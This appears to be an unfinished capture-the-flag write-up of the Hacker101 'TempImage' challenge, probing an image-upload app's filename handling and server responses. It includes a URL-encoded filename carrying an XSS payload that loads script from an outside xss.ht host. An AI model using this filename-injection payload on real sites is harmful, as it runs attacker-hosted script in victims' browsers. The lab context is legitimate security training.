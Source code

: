 ```yaml
---
title: Hacker101 CTF TempImage [moderate] Write-Up
subtitle: a work in progress
description: A write up for the TempImage [moderate] challenge
published: true
datePublished: 1611357758022
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile
tags:
  - ctf
  - writeup
  - hackerone
  - TempImage
  - security
thumbnailPhoto: /hackerone/tempimage/tempimage-hackerone.webp
bannerPhoto: /hackerone/tempimage/tempimage-hackerone
canonicalUrl:
---
```


### `WIP`

This is my Write Up for the "TempImage" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to some sort of cloud storage application, on the main Page we get a really simple page:

```jsx
<!-- https://ctf.hacker101.com/ctf/launch/12 -->

<html>
  <head>
    <title>TempImage &mdash; Trial</title>
  </head>
  <body>
    <h1>TempImage</h1>
    <p>
      <b>UNREGISTERED</b>
    </p>
    <p>
      <a href="upload.php">Upload image</a>
    </p>
  </body>
</html>
```

It signifies that its an UNEGISTERED version of the app, thus working in trial mode.

## Enumeration

So lets start to explore the app and what it can do. We start by clicking the "Upload image" Button.
This leads us to a new page **/upload.php**, here we can select a file from our computer, and have a submit button to send the form.

The form will be sent to a **doUpload.php** file. Upon closer inspection we alos see that there is a hidden field "filename", which gets filled in by aJS snippet.

```jsx
   <h1>Upload</h1>
		<form action="doUpload.php" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" id="file">
			<input type="hidden" name="filename" id="filename">
			<input type="submit" value="Upload">
		</form>
		<script>
			$(document).ready(function() {
				$('#file').change(function(e) {
					$('#filename').val(e.target.files[0].name)
				})
			})
	 </script>
```

So it seems this lil script extracts the `file.name` prop from the fileOpbject the user uploads to the input type="file".

Lets Try it out, It seems the file inpput allows any file to be chosen, lets try a 5mb .gif file.

```jsx
<center><h1>413 Request Entity Too Large</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
```

OK, fair, maybe 5mb was a it large, but we know we're working with an nginx 1.14 server on Ubuntu.
So how about we try a smaller gif?

```shell
ERROR: Only PNG format supported in trial.
```

Okay, finally we know what the app expects from us, a PNG file. So we try jsut that.
The upload succeeds, thus redirecting us to a new url:
`/files/be9c26aaea9d9b5085c7f6eed0812745_uhhhh.png`

so it seems our files are uploaded to the `/files/` directory, what a suprise, the file stil contains our original filename, preceeded by some gibberish.

we should deffinetly try to exploit this, check wheter or not they sanitize our filename.

Lets try uploading a file named: `javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

We now get redirected to this url `http://35.190.155.168/d29c8e00db/files/9975e7e24fac21e8b877a6d08efe09c6_javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

and we get served this content:

```javascript
Not Found
The requested URL /files/9975e7e24fac21e8b877a6d08efe09c6_javascript:eval('var a=document.createElement(\'script\');a.src=\'https:/Discover.xss.ht\';document.body.appendChild(a)').png was not found on this server.

Apache/2.4.7 (Ubuntu) Server at 127.0.0.1 Port 52736
```

so it seems there is potential there, we just need a more sophisticated payload to upload.

## Taking a step back

It's important not to get tunnelvision and only focus on your first finding, so lets take a step back and analyze the website using Burp Suite. Maybe we'll find something.
Lets analyze the upload URL first:

```shell
GET /d29c8e00db/upload.php HTTP/1.1
Host: 35.190.155.168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

This does not tell us that much, it seems the server could accep more than just PNG tho.

How about if we upload an image?

`POST /d29c8e00db/doUpload.php HTTP/1.1`

![image upload Request](/hackerone/tempimage/tempimage-hackerone101-burpSuite_fileupload.png "image upload Request")

> This Post is marked as `WIP` and will be updated continously.
